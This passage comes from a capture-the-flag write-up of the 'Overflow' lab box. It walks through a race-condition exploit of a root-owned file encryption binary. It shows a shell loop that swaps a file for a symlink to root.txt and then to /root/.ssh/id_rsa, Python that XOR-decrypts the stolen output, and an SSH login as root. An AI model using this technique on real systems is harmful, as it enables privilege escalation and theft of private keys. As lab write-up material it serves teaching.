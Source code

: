 ![image-20210930095520033](https://0xdfimages.gitlab.io/img/image-20210930095520033.png)

In the third window, I’ll prep my exploit to encrypt `l`:

    
    
    tester@overflow:/opt/file_encrypt$ python3 /tmp/sploit.py /tmp/0xdf/l /tmp/0xdf/o | ./file_encrypt
    

I’ll want to wait to run this until I see that `l` contains “oops”. Once it
switches there, I’ll immediately hit enter. It will `stat` on `l` and see a
normal file not owned by root. Then it sleeps three seconds. While that sleep
is happening, the three second sleep in the while loop will end, and replace
`l` with a symlink. When when the sleep in `file_encrypt` ends, it will read
via the symlink `root.txt` and encrypt it.

[This video](https://www.youtube.com/watch?v=ZroW5AHGK6Q) gives a quick
demonstration of how all this works:

The resulting file is 33 bytes, the flag xored by 0x9b:

    
    
    tester@overflow:/tmp/0xdf$ ls -l o 
    -rw-rw-r-- 1 root tester 33 Sep 30 19:28 o
    tester@overflow:/tmp/0xdf$ xxd o
    00000000: aaa2 adaa fafe acaf a2ff a3ae a8ad afa8  ................
    00000010: fdfd f9aa aba2 a8fa feab aaa8 abaf a8a3  ................
    00000020: 91                                       .
    

I can decrypt it in Python:

    
    
    >>> with open('/tmp/0xdf/o', 'rb') as f:
    ...     enc = f.read()
    ... 
    >>> print(''.join([chr(0x9b^x) for x in enc]))
    1961ae74************************
    

#### Shell

I can use the same technique to read `/root/.ssh/id_rsa` by changing the loop:

    
    
    while :; do rm l; ln -sf /root/.ssh/id_rsa l; sleep 3; rm l; echo "oops" > l; sleep 3; done
    

Once I decrypt the output, I can SSH into the box as root:

    
    
    oxdf@hacky$ ssh -i ~/keys/overflow-root root@10.10.11.119
    Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-143-generic x86_64)
    ...[snip]...
    root@overflow:~# 
    

[](/2022/04/09/htb-overflow.html)

